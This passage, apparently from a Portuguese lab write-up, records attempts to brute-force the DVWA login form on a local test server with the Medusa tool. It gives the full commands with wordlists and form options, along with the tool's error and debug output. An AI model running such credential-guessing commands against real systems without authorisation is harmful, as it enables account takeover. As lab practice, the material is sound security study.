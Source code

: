 **Resultado:**
```
Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

NOTICE: web-form.mod: failed to connect, port 443 was not open on 127.0.0.1
```

**Análise do Erro:**
- Medusa tentou usar HTTPS (porta 443) por padrão
- DVWA estava rodando em HTTP na porta 42001
- Necessidade de ajuste na sintaxe

### Segunda Tentativa - Correção de Porta

**Comando Corrigido:**
```bash
medusa -h 127.0.0.1 -U usernames.txt -P passwords.txt -M web-form \
  -m FORM:"/login.php" \
  -m DENY-SIGNAL:"Login failed" \
  -m FORM-DATA:"post?username=&password=&Login=Login" \
  -n 42001 \
  -v 4
```

**Resultado:**
```
ACCOUNT CHECK: [web-form] Host: 127.0.0.1 User: administrator Password: admin
ERROR: The answer was NOT successfully received, understood, and accepted while trying administrator admin: error code  302
```

**Análise Detalhada:**
- Medusa conseguiu conectar na porta correta
- Recebeu resposta 302 (Redirect) do servidor
- Não conseguiu processar o redirecionamento
- Falha na detecção do sinal "Login failed"

### Terceira Tentativa - Ajuste na Detecção

**Comando com Debug Ativado:**
```bash
medusa -h 127.0.0.1 -U usernames.txt -P passwords.txt -M web-form \
  -m FORM:"/login.php" \
  -m DENY-SIGNAL:"302 Found" \
  -m FORM-DATA:"post?username=&password=&Login=Login" \
  -n 42001 \
  -v 6
```

**Resultado com Verbose:**
```
DEBUG MODULE: [web-form.mod] Sending Web Form Authentication (POST).
DEBUG: Data sent: POST //login.php HTTP/1.0
Host: 127.0.0.1:42001
User-Agent: I'm not Mozilla, I'm Ming Mong
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=administrator&password=admin&Login=Login

DEBUG MODULE: [web-form.mod] Retrieving server response.
DEBUG: Data received (485): HTTP/1.1 302 Found
Server: nginx/1.28.0
Location: login.php
Set-Cookie: PHPSESSID=53117d204cb5a239b5c6bc199c5e589f
```
